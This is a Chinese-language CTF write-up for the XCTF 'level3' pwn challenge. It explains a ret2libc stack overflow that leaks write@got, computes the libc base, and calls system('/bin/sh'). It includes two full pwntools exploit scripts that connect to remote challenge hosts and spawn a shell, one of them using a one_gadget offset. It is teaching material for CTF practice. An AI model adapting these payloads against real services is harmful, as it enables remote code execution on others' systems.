





# wp

转载自 XCTF攻防世界 level3 https://www.52pojie.cn/thread-1032651-1-1.html

首先，检查一下程序基本信息：



程序很简单，保护开的也差不多。但是需要注意，这道题单独给出了libc，而且根据题目提示，程序中没有现成的system函数。这就需要我们从libc中动态加载system函数。

初步思路：PIE没有开启，那么在libc中函数的offset就是固定的，只要确认了libc的base address，然后计算出system函数的offset，就可以定位到system函数的真实地址，实现调用。

IDA查看源码：
* strings查看一下是否有明显的字符串信息：




从字符串信息来看，没有明显的可以利用的字符串，函数也只有write和read，在某些情况下这两个函数可以构造溢出，先留心一下。

- main函数：




没有明显的问题，直接进入vulnerable_function()

- vulnerable_function函数：




有一个缓冲区buf，在read函数中进行了调用。可以进行溢出。

**攻击思路：**
libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。

1. 首先利用write()函数计算出write()函数的真实地址；
2. 利用相对offset计算出system和"/bin/sh"的真实地址。

在vulnerable_function()中，先调用了write()函数，然后调用read()函数。write()函数返回到vulnerable_function()后，再进行read()函数调用，这样我们就可以进行二次攻击。

* 第一次攻击我们利用栈溢出将write()函数在got表中的真实地址leak出来，然后减去libc中的offset，就可以得到libc的base address。

* 第二次攻击重新进入main函数，再次通过栈溢出，利用system函数进行getshell。

两次攻击stack中的情况：

| First stack | Second stack |
| ----------- | ------------ |
| 'A'*0x88    | 'A'*0x88     |
| EBP         | EBP          |
| write@plt   | sys_addr     |
| main_addr   | 0xdeadbeef   |
| 1           | bin_sh_addr  |
| write@got   | XXXX         |
| 0xdeadbeef  | XXXX         |

这样的话，第一次使用的payload构成如下：

**payload = 'A'*0x88 + p32(0xdeadbeef) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(0xdeadbeef)**


利用第一次攻击，就可以获取到libc的基地址。然后进行第二次攻击，使用的payload构成为：


**payload0 = 'A'*0x88 + p32(0xdeadbeef) + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh_addr)**


中间涉及到几个地址的计算，各地址的计算方式如下：

| Address     | Calculate                              |
| ----------- | -------------------------------------- |
| libc_addr   | write_got_addr - libc.symbols['write'] |
| sys_addr    | libc_addr + libc.symbols['system']     |
| bin_sh_addr | libc_addr + 0x15902b                   |

```
备注：0x15902b是"/bin/sh"在libc中的地址，可以使用libcsearch进行获取，也可以使用 strings -a -t x libc_32.so.6 | grep "/bin/sh" 进行获取。此外，还有一个libcSearcher可以使用，有兴趣的可以研究一下。
```

这样的两次攻击下来，就可以使用libc中的system函数进行"/bin/sh"的调用，从而getshell。

## EXP:

```python
from pwn import *
 
sh = remote('124.126.19.106',35860)
#sh=process('./level3')
 
#context.log_level = 'debug'
elf=ELF('./level3')
libc=ELF('./libc_32.so.6')

#get func address
write_plt = elf.plt['write']
write_got = elf.got['write']
main_addr = elf.symbols['main']
#char[88] ebp  write函数地址  write函数返回地址(返回到main函数)  write函数参数一(1)  write函数参数二(write_got地址)  write函数参数三(写4字节)
payload = flat('A'*0x88, p32(0xdeadbeef), p32(write_plt), p32(main_addr), p32(1), p32(write_got), p32(0xdeadbeef))
# 0xdeadbeef 可随意如 p32(4)，填充4字节, 上面就是把write_got输出, 然后返回main头部
 
sh.sendlineafter("Input:\n",payload)
 
#leak write's addr in got
write_got_addr = u32(sh.recv()[:4])
print( 'write_got address is',hex(write_got_addr))
 
#leak libc's addr 计算lib库加载基址
libc_base = write_got_addr - libc.symbols['write']
print( 'libc address is',hex(libc_base))
 
#get system's addr
sys_addr = libc_base + libc.symbols['system']
print( 'system address is',hex(sys_addr))
 
#get bin/sh 's addr    strings -a -t x libc_32.so.6 | grep "/bin/sh"
#libc.search("/bin/sh").next()
bin_sh_addr = libc_base + 0x15902b
print( '/bin/sh address is',hex(bin_sh_addr))
 
#get second payload
##char[88] ebp system system函数的返回地址 system函数的参数(bin_sh_addr)
payload0 = flat('A'*0x88, p32(0xdeadbeef), p32(sys_addr), p32(0xdeadbeef), p32(bin_sh_addr))
 
sh.sendline(payload0)
sh.interactive()
```

执行完成后，可以成功拿到flag：

 

## 总结

这道题感觉才算真正开始入门pwn的栈溢出，遇到了没有system和"/bin/sh"的情况，思路也比较好玩，需要一定的技巧和脑洞才能完成这道题。可能在大师傅们的眼里很简单，但是对于刚入门pwn的小白来说，这道题很值得玩味，挺有价值的。 此外，需要花一定的时间学习一下pwntools，这玩意真的是pwn题的神器233333。


## 解法2
可以使用one_gadget工具，找到execve地址可以省略使用system和/bin/sh地址的步骤

```sh
kali@kali:/mnt/hgfs/vmware$ one_gadget  libc_32.so.6 
0x3a80c execve("/bin/sh", esp+0x28, environ)
constraints:
  esi is the GOT address of libc
```

```python

from pwn import *
p = remote("111.198.29.45",37840)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")
context(log_level='debug',arch='i386',os='linux')
execve = 0x3a80c
junk = "A"*(0x88+4)
main_addr = elf.symbols['main']
write_got = elf.got['write']
write_plt = elf.plt['write']
payload1 = junk + p32(write_plt) + p32(main_addr)
payload1 += p32(1) + p32(write_got) + p32(4)
p.recv()
p.sendline(payload1)
data = p.recv()[:4]
write_addr = u32(data)
offset = write_addr - libc.symbols['write']
execve_addr = offset + execve
payload = junk + p32(execve_addr)
p.sendlineafter("Input:\n",payload)
p.interactive()
```